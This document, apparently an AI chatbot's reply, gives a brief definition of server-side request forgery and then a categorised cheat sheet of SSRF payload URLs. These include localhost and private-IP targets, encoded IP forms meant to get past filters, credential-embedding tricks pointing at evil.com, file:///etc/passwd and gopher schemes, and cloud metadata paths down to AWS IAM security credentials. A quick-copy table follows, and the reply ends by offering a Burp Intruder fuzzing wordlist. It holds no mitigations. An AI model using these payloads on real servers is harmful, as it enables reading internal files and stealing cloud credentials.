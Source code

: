 
SSRF is a web vulnerability where an attacker tricks a server into making an unintended request to another server (internal resources or external resources) on behalf of the attacker.




Ah! You're asking for all types of URL formats attackers use as payloads in the target parameter or similar during SSRF attacks — i.e., how an attacker crafts the target URL itself to exploit SSRF.

Let me show you examples grouped by technique that can be used in parameters like:

http://vulnerable-site.com/fetch?url=...


---

✅ 1. Direct Internal IP/Host SSRF

Targeting internal services like localhost, metadata, or internal networks.

http://vulnerable-site.com/fetch?url=http://127.0.0.1:80
http://vulnerable-site.com/fetch?url=http://localhost:8000
http://vulnerable-site.com/fetch?url=http://192.168.0.1/admin
http://vulnerable-site.com/fetch?url=http://10.0.0.5/status
http://vulnerable-site.com/fetch?url=http://169.254.169.254/latest/meta-data/


---

🔁 2. Open Redirect Chaining

Abusing a trusted site that redirects to internal IP.

http://vulnerable-site.com/fetch?url=http://trusted.com/redirect?url=http://127.0.0.1:8000


---

🧮 3. Obfuscated/Encoded IPs

To bypass filters checking for 127.0.0.1, etc.

Format	Example

Decimal	http://2130706433
Octal	http://0177.0.0.1
Hex	http://0x7f000001
Short	http://127.1
IPv6	http://[::1]
DNS-based	http://localtest.me (resolves to 127.0.0.1)


Example:

http://vulnerable-site.com/fetch?url=http://2130706433:80


---

🎭 4. URL With Embedded Credentials (Auth Bypass / Obfuscation)

http://vulnerable-site.com/fetch?url=http://127.0.0.1@evil.com
http://vulnerable-site.com/fetch?url=http://evil.com@127.0.0.1
http://vulnerable-site.com/fetch?url=http://user:pass@127.0.0.1


---

🛠️ 5. File / Gopher / Dict Schemes

Used in advanced SSRF for reading local files or triggering RCE.

http://vulnerable-site.com/fetch?url=file:///etc/passwd
http://vulnerable-site.com/fetch?url=gopher://127.0.0.1:11211/_stats
http://vulnerable-site.com/fetch?url=dict://127.0.0.1:2628


---

🔒 6. Cloud Metadata Endpoints (for Cloud SSRF)

Cloud	Metadata URL

AWS	http://169.254.169.254/latest/meta-data/
Azure	http://169.254.169.254/metadata/instance?api-version=2021-02-01
GCP	http://metadata.google.internal/computeMetadata/v1/
Alibaba	http://100.100.100.200/latest/meta-data/


http://vulnerable-site.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/


---

🧪 7. Null Byte or Bypass Payloads

http://vulnerable-site.com/fetch?url=http://127.0.0.1%00.example.com
http://vulnerable-site.com/fetch?url=http://127.0.0.1%09


---

🌍 8. DNS Rebinding Payloads

Attacker uses a DNS name that resolves to a public IP first, then internal.

http://vulnerable-site.com/fetch?url=http://malicious.rebind.com


---

🧱 9. SSRF Over POST JSON (API Context)

Some SSRF is triggered not by query string but in JSON bodies:

POST /api/render
{
  "url": "http://127.0.0.1:8080"
}


---

👀 Summary (Quick Copy)

Type	Payload Example

Internal IP	?url=http://127.0.0.1
AWS Metadata	?url=http://169.254.169.254/latest/meta-data/
Obfuscation	?url=http://2130706433
Auth Embed	?url=http://127.0.0.1@evil.com
Open Redirect	?url=http://trusted.com/redirect?url=http://127.0.0.1
Gopher/File	?url=gopher://127.0.0.1/_
DNS Rebinding	?url=http://malicious.rebind.com



---

Would you like me to generate a Burp Intruder wordlist from these formats for fuzzing?

